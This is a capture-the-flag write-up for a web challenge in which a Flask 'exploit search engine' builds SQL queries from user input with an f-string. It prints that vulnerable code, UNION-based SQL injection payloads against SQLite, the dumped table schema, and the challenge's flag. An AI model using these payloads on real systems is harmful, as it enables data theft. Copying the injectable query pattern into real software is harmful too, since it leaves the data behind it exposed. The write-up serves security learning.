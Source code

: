 # Web: X-Marks-The-Flag

**Author**: redtrib3 (https://github.com/redtrib3)
**Points**: 250
**Hint(s)**: None
**Flag**: `xploit{uni0nize_th3_tabl3s_0verthrow_th3_sys4dm1ns}`

**Challenge description:**
```
We built a brand new exploit search engine, so you don’t have to waste time searching ExploitDB.

Note: No automated tools are required to solve this challenge.

Challenge Link:
http://xploitctf.live:64298/
```

## Solve

We are given a search engine type of application named 'Xpl0it Search', on searching anything such as a letter 'a', it returns every exploits with 'a' in its title.
we can also change the search parameter to - 'Title', 'Id', 'Date', 'Author', 'Type', 'Platform'.

If you notice the scroller on top of the webpage, there is a text which says " 👆 Visit /source for our source code", where /source is a hyperlink that gives us the actual source code of the website.
Read through the source code to understand how the flask application works, the vulnerability lies in one of the database utils 
that is made to query the database using two parameters 'keyword' and 'by'. These parameters are user inputs directly taken from `by` and `x` parameters in `/search`.
The user input is directly put into the sql query, obviously resulting in an SQL INJECTION vulnerability.

**Vulnerable code:**
```python3
        if by == 'title':
            query = f"SELECT * FROM exploits WHERE title LIKE '%{keyword}%'" # keyword is 'x' parameter
```

Step by step exploitation:
1. Find the number of columns reflected using the following injection query:
    `%' union select 1,2,3,4,5,6 -- -`
2. The above query is successful, since 6 columns are returned, we can use any one column to exfilterate data.
3. From the source code we know that the database is sqlite, so here is the payload to list table schemas.
`%' union select 1,2,3,4,5,sql from sqlite_master -- -`

Output:
```
CREATE TABLE company_secrets ( id INTEGER NOT NULL, secret VARCHAR NOT NULL, PRIMARY KEY (id) )
CREATE TABLE exploits ( id INTEGER NOT NULL, title VARCHAR NOT NULL, date DATE NOT NULL, author VARCHAR NOT NULL, type VARCHAR NOT NULL, platform VARCHAR NOT NULL, PRIMARY KEY (id) )
```
4. The company_secrets table is interesting, we can easily print the secret now:
`%' union select 1,2,3,4,5,secret from company_secrets`

5. We get the flag!
